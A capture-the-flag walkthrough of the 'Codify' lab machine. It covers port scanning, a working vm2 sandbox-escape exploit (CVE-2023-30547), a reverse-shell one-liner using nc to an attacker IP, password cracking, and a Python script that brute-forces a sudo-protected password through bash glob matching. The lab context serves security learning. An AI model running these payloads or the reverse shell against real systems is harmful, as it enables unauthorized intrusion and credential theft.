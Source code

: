 ## 1. Enumeration

- As always, we will start by a simple nmap scan:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3000/tcp open  http    Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Foothold

- Let's visit the website:

![img.png](img/img.png)

- Cool, it allows us to run JS code in sandbox environment. Looks like it has something to do with some sandbox escape shit.

- After some research, we found a CVE (labeled CVE-2023-30547) about escape the sandbox restrictions and perform arbitrary code execution on target host systems.

- The exploit is pretty straight forward :v

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('ls -la');
}
`

console.log(vm.run(code));
```

![img_1.png](img/img_1.png)

- Create a revershell with:

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').
    execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | sh -i 2>&1 | nc 10.10.14.70 4242 >/tmp/f');
}
`

console.log(vm.run(code));
```

- Messing around in the current directory doesn't reveal any useful information. Trying to print the environment variables tells us that we have access to `/var/www` directory. 

- Going to the `/var/www/contact` directory, we found a SQLite Database file: `tickets.db`. In there we found the username and password of another user (`joshua`):

![img_2.png](img/img_2.png)

- Crack this password with `john`:

![img_3.png](img/img_3.png)

- Connect via SSH and we have the flag:

![img_4.png](img/img_4.png)

## 3. Privilege Escalation

- Firstly, let's check if we have sudo permission on any files:

![img_5.png](img/img_5.png)

- Let's see what's inside that file:

```
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

- Seems like we can execute commands with sudo privilege if we provide the correct root password!

- Going back to the file, it has a security bug in this line: `[[ $DB_PASS == $USER_PASS ]]`

  - The comparison comes in double brackets, thus it reads `[[$DB_PASS == Pass]]` as `[[$DB_PASS == P*]]`
  - This allows us to brute force the password by guessing each character :P
  - More detail: <a href="https://www-baeldung-com.translate.goog/linux/bash-single-vs-double-brackets?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=vi&_x_tr_pto=wapp#4-pattern-matching">here</a>

- The easiest way is to build a python script that automates it:

```
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
    for character in all:  
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
        if "Password confirmed!" in output:  
            password += character  
            print(password)  
            break  
    else:  
        found = True
```

- And we found the password: `kljh12k3jhaskjh12kjh3`

![img_6.png](img/img_6.png)

- Finally, run `su` to enter sudo mode and grab the flag:

![img_7.png](img/img_7.png)

---
## Reference
- https://www.quorumcyber.com/threat-intelligence/poc-exploit-released-for-vm2-vulnerability/
- https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244